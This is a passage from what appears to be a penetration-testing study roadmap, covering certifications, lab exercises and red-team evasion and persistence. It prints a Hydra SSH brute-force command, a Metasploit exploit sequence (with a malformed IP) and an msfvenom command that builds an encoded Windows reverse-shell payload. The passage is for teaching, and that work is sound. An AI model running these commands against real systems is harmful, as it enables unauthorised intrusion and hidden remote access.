 ```
hydra -l username -P wordlist.txt ssh://target_ip
```
This will attempt to log into the SSH server with the username and a list of passwords from the 'wordlist.txt' file.
```
msfconsole
use exploit/unix/webapp/vulnerable_app
set RHOST 192.168.1.1.1
exploit
```
This is merely illustrative of how to use Metasploit to exploit a known vulnerability in a web application on a remote server.
### 8.4. Acquire Certifications
Consider obtaining recognized certifications in cybersecurity, such as CompTIA Security+ or Certified Ethical Hacker (CEH). Also consider the eLearnSecurity Certified Professional Penetration Tester (eCPPT) or Certified Information Systems Security Professional (CISSP) certification for more advanced skills and industry recognition. Prepare for the exam by studying guides and online courses, and taking practice exams. These certifications will validate your skills and open up opportunities in the cybersecurity field. For example, to prepare for the CompTIA Security+ certification, you can use study books and online resources, and then take practice exams to test your knowledge. One example is to sign up for a free, good-quality online course or take a certification preparation course.
### 8.5. Practical Exercises
* Perform lab exercises to familiarize yourself with Nmap and its scanning options. In particular, scan a network, identify active hosts and discover services and software versions.
* Set up a test lab where you can explore different vulnerabilities, for example try to perform a SQL Injection on a web application and perform penetration tests in a controlled manner.
* Use tools such as Metasploit to perform ethical exploit testing on your systems or in lab environments.
* Research and practice with different methods of brute force attacks, such as attacks on web services or databases.
* Create a custom Python script that performs a port scan and logs the results to a file.
* Do in-depth research on the certifications you are interested in and prepare for an intermediate level certification exam.
## 9. Red Team Advanced
Mastering the concepts at level 3 will provide you with advanced cybersecurity skills and allow you to conduct penetration testing of greater complexity and address more sophisticated threats. If you have an interest in a career at Red Team, these skills are essential for a successful career in the cybersecurity field as a Red Team professional.
### 9.1. Evasion and Persistence
Evasion and persistence are critical aspects of Red Team operations. An example would be learning how to evade intrusion detection systems (IDS) and maintain persistent access on compromised systems. For evasion, you could investigate techniques such as shellcode injection into legitimate processes or the use of anti-forensic techniques. For persistence, you could learn about the use of Trojans and backdoors to maintain long-term access to a system. For example, research firewall and IDS evasion techniques. One example would be to use obfuscation techniques in a shellcode to avoid detection by an IDS. Another example might be to obfuscate a Metasploit shellcode to evade detection. In addition, persistence refers to maintaining long-term access on a compromised system. For example, you can learn how to use tools such as PowerShell Empire to establish persistence on a Windows system.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=your_port -f c -e
x86/shikata_ga_nai
```
### 9.2. Malware Analysis
#### Malicious Code Analysis